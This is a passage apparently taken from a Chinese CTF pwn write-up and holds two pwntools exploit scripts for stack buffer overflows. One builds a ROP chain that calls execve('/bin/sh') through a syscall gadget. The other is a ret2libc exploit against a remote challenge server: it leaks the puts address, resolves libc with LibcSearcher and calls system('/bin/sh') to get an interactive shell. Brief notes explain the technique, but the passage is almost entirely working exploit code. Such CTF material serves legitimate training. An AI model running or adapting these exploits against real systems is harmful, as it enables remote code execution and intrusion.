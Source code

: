 ```
    print(gift)
    print('------------')
    base = int(gift,16)-0x11a9
    rdi = base+0x11b1
    rsirdx = base+0x11b3
    binsh = base+0x4010
    rdx = base+0x11b4
    read = base + 0x11D8
    syscall = base +0x11b6
    # payload = b'a'*0x48 + p64(rdx) + p64(0x100)+p64(read)
    # giacomo.send(payload)
    payload = b'a'*0x48 +p64(rdi) + p64(binsh) + p64(rsirdx) + p64(0) + p64(0) + p64(syscall)
    giacomo.send(payload)
    giacomo.send(b'a'*0x3b)
    giacomo.interactive()


main()
```

### ret2libc

​	plt、got的地址需要泄露[ret2libc](https://blog.csdn.net/m0_46363249/article/details/115270147)

​	泄露puts函数地址，调用system(/bin/sh)

```
from pwn import *
from LibcSearcher import *

context(os='linux',arch='amd64',log_level='debug')
content = 0

if content == 1:
    giacomo = process('./ret2libc')
else:
    giacomo = remote("124.223.158.81", 27006)

def main():
    # gdb.attach(giacomo)
    # pause()
    elf = ELF('./ret2libc')
    rdi = 0x40117e
    
    read_got = 0x7ffff7eab920
    payload = b'a'*0x48 + p64(rdi) + p64(elf.got['puts'])+p64(elf.plt['puts']) + p64(0x401183)
    giacomo.recvuntil(b'Go Go Go!!!\n')
    giacomo.send(payload)
    gift = (giacomo.recvuntil(b'\n', drop = True)).hex()
    gift1 =''
    for i in range (6):
        gift1 = gift[i*2:i*2+2]+gift1
    print(gift1)
    puts_addr = int(gift1,16)
    libc = LibcSearcher("puts",puts_addr)
    libcbase = puts_addr - libc.dump("puts")
    system_addr = libcbase + libc.dump("system")            #system 偏移
    bin_sh_addr = libcbase + libc.dump("str_bin_sh")         #/bin/sh 偏移
    # giacomo.recvuntil(b'Go Go Go!!!\n')
    payload = b'a'*0x48 + p64(rdi) + p64(bin_sh_addr) + p64(0x40101a)+ p64(system_addr)
    giacomo.send(payload)
    giacomo.interactive()
main()
```
